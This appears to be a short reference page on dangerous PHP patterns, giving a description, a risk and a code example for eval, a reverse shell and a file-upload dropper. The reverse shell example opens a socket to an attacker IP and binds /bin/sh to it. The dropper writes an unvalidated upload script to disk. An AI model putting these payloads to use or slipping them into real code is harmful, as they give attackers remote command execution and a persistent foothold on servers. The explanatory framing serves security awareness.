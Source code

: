 ## eval

### Description:
Evaluates a string containing PHP code during runtime.

### Risks:

Critical security threat if applied on unsanitized user input, leading to Remote Code Execution (RCE).

Enables entire-arbitrary PHP code execution.

### Example:

    php
    $code = 'echo "Hello, World!";';
    eval($code);
    Executes dynamic PHP code.

## Reverse Shell Payload Example

### Description:
PHP code that opens a TCP connection back to an attacker's system, then spawns a /bin/sh shell over the socket.

### Implications:
Allows attacker to remotely execute commands on the compromised server.

### Example:

    php
    $ip = '192.168.1.7';
    $port = 443;
    $code = '<?php set_time_limit(0); $sock = fsockopen($ip, $port); $proc = proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>';
    file_put_contents("reverse-shell.php", $code);
    

## File Upload Script Embedded via File Write
### Description:
Writes an HTML form and PHP code for uploading files to a new file (upload2.php).

### Risk:
Allows arbitrary file upload with no validation, enabling attackers to upload and execute malicious scripts or overwrite files.

### Example snippet:

    php
    $file = fopen("upload2.php","w");
    fwrite($file, '<html><form action="upload2.php" method="post" enctype="multipart/form-data"> Select File to upload:
    <input type="file" name="fileToUpload" id="fileToUpload"> <input type="submit" value="Upload" name="submit"></form></html>
    <?php if(isset($_POST["submit"])) { $file_name = $_FILES["fileToUpload"]["name"];
    $file_tmp_name = $_FILES["fileToUpload"]["tmp_name"];
    if (move_uploaded_file($file_tmp_name, "./" . $file_name)) { echo "ok"; } } ?>');
    fclose($file);
